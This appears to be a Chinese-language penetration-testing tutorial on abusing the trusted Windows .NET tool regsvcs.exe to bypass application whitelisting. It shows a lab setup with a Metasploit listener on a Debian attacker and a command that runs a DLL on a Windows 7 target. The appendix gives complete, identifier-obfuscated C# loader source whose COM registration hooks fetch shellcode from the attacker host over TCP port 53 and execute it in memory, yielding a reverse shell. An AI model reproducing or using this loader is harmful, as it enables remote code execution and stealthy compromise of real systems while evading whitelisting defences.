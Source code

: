   
  
### Regsvcs简介：

Regsvcs为.NET服务安装工具，主要提供三类服务：  
* 加载并注册程序集。  
* 生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中。  
* 配置以编程方式添加到类的服务。  

**说明：**Regsvcs.exe所在路径没有被系统添加PATH环境变量中，因此，Regsvcs命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool

基于白名单Regsvcs.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](media/f80a8df6945621d36a5dd72bf623281a.jpg)

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe Micropoor.dll
```
![](media/5a929f376966814377cd69342c7f8f17.jpg)

### 附录：Micropoor.cs
**注：x86 payload**

```c#
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace phwUqeuTRSqn

{

public class mfBxqerbXgh : ServicedComponent { 

public mfBxqerbXgh() { Console.WriteLine("Micropoor"); } 

[ComRegisterFunction]

public static void RegisterClass ( string DssjWsFMnwwXL )

{

uXsiCEXRzLNkI.BBNSohgZXGCaD();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string DssjWsFMnwwXL )

{

 uXsiCEXRzLNkI.BBNSohgZXGCaD();

}

} 

public class uXsiCEXRzLNkI

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 pAyHWx, UInt32 KXNJUcPIUymFNbJ, UInt32 MotkftcMAIJRnW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 yjmmncJHBrUu, UInt32 MYjktCDxYrlTs, UInt32 zyBAwQVBQbi);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 PorEiXBhZkA, byte[] UIkcqF, UInt32 wAXQEPCIVJQQb);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 WNvQyYv, UInt32 vePRog, UInt32 Bwxjth, IntPtr ExkSdsTdwD, UInt32 KfNaMFOJVTSxbrR, ref UInt32 QEuyYka);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pzymHg, UInt32 lReJrqjtOqvkXk);static byte[] SVMBrK(string MKwSjIxqTxxEO, int jVaXWRxcmw) {

IPEndPoint hqbNYMZQr = new IPEndPoint(IPAddress.Parse(MKwSjIxqTxxEO), jVaXWRxcmw);

Socket LbLgipot = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { LbLgipot.Connect(hqbNYMZQr); }

catch { return null;}

byte[] VKQsLPgLmVdp = new byte[4];

LbLgipot.Receive(VKQsLPgLmVdp, 4, 0);

int jbQtneZFbvzK = BitConverter.ToInt32(VKQsLPgLmVdp, 0);

byte[] cyDiPLJhiAQbw = new byte[jbQtneZFbvzK + 5];

int vyPloXEDJoylLbj = 0;

while (vyPloXEDJoylLbj < jbQtneZFbvzK)

 { vyPloXEDJoylLbj += LbLgipot.Receive(cyDiPLJhiAQbw, vyPloXEDJoylLbj + 5, (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) < 4096 ? (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) : 4096, 0);}

byte[] MkHUcy = BitConverter.GetBytes((int)LbLgipot.Handle);

Array.Copy(MkHUcy, 0, cyDiPLJhiAQbw, 1, 4); cyDiPLJhiAQbw[0] = 0xBF;

return cyDiPLJhiAQbw;}

static void ZFeAPdN(byte[] hjErkNfmkyBq) {

if (hjErkNfmkyBq != null) {

UInt32 xYfliOUgksPsv = HeapCreate(0x00040000, (UInt32)hjErkNfmkyBq.Length, 0);

UInt32 eSiulXLtqQO = HeapAlloc(xYfliOUgksPsv, 0x00000008, (UInt32)hjErkNfmkyBq.Length);

RtlMoveMemory(eSiulXLtqQO, hjErkNfmkyBq, (UInt32)hjErkNfmkyBq.Length);

UInt32 NByrFgKjVjB = 0;

IntPtr PsIqQCvc = CreateThread(0, 0, eSiulXLtqQO, IntPtr.Zero, 0, ref NByrFgKjVjB);

WaitForSingleObject(PsIqQCvc, 0xFFFFFFFF);}} 

public static void BBNSohgZXGCaD() {

byte[] cyDiPLJhiAQbw = null; cyDiPLJhiAQbw = SVMBrK("192.168.1.4", 53);

ZFeAPdN(cyDiPLJhiAQbw);

} } }
```
>   Micropoor
